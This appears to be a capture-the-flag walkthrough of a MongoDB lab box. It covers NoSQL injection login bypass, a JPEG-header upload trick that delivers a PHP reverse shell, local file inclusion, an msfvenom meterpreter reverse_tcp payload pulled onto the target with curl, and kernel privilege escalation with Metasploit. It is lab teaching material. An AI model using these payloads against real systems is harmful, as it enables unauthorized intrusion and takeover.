



---
---

# IML - MongoDB NoSQL Injection

- Scan:


- Going to Port 80:


- We get a Login page and since this box is a MongoDB box, we can assume this is NoSqli

- Looking on:
<https://book.hacktricks.xyz/pentesting-web/nosql-injection>


**username\[\$ne\]=toto&password\[\$ne\]=toto**

- We need to see how the server crafts its authentication
- Open Burp Suite and capture the traffic from a login


- Send this to the Repeater and change the authentication line


- Send it off and look at the Response (If this doesn't work - reset machine)


**admin : Superhardpassword**

- Login with the credentials


- After trying to upload non jpeg files with a .jpeg extension and getting FAILED everytime, it's time to consider something else.
The jpeg header

- Since this Kali machine is closed off from the internet, we can search the machine itself for a jpeg image file:

```bash
find / -type f -name "\*.jpeg" 2>/dev/null

```


- Upload the thumbnail.jpeg and we get success:


- Through testing - all it needs to be successful is to have .jpeg at the end and for the data to start with:


As show here:




- We can bruteforce for directories to see if we can execute the file (if we uploaded something malicious):

```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt

```



- In /img:


- As this didn't lead to anything. I did another scan but with extensions this time:

```bash
gobuster dir -u http://10.102.114.88 -w /usr/share/wordlists/seclists/Discovery/Web-Content/raft-large-directories-lowercase.txt -x .php

```


- If we look at /test/php:


- This is a LFI vulnerability:


We can access some of the mongodb file like mongod.conf and mongod.log


As well as check what apps are running - /proc/self/cmdline


- We can also see if we can get any ssh private keys
- But that didn't give much

- We can get to the /img directory (where the uploaded images were stored):



- So the way I got this to work is:

- Upload a legitimate .jpg file
- Capture the request in Burp
- Send to Repeater

- Now remove all the jpeg data, **apart** from the first (JFIF) line
- Paste in the php reverse shell code under this line
(I used pentestmonkey's script - <https://github.com/pentestmonkey/php-reverse-shell/blob/master/php-reverse-shell.php>)

- Also rename the filename so it ends with **.php.jpg**

- So it looks like this:


Don't upload the php directly, and then try and add the JFIF line afterwards - it doesn't recognize it and will fail

- Send that request and you should get Successful

- Set up a nc listener on the port you specified in the script

- And in a new Burp request (captured from the LFI):
Go to /var/www/html/img/**\<image_name\>**.php.jpg


- And we got a shell:


- Upgrade the shell:
/usr/bin/script -qc /bin/bash /dev/null

**<u>Priv Esc</u>**
- Querying MongoDB didn't give anything:


- After lots of enumerating - found nothing so to get root I did:

- Created a meterpreter payload:

```bash
msfvenom -p linux/x64/meterpreter/reverse_tcp LHOST=10.102.143.238 LPORT=8881 -f elf -o reverse.elf

```


- Uploaded the payload to the target with python server and curl

- Once I got the meterpreter session back, I used the module - **multi/recon/local_exploit_suggester** to give me potential priv esc modules:


- I then used the module - **exploit/linux/local/bpf_sign_extension_priv_esc** to get root and get the flag:


